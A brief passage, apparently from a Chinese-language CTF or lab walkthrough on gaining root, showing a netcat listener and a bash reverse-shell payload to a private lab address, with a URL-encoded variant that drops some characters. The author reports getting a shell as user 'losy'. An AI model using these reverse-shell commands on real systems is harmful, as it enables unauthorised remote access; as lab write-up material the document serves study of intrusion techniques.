

# 提权获取root
打开端口准备接收：
nc -nlvp 9001
用如下payload获取反弹shell：

bash -c 'bash -i >& /dev/tcp/192.168.186.138/9001 0>&1'
bash%20c%20%27bash%20i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.186.138%2F9001%200%3E%261%27

于是我获取了losy用户下的shell。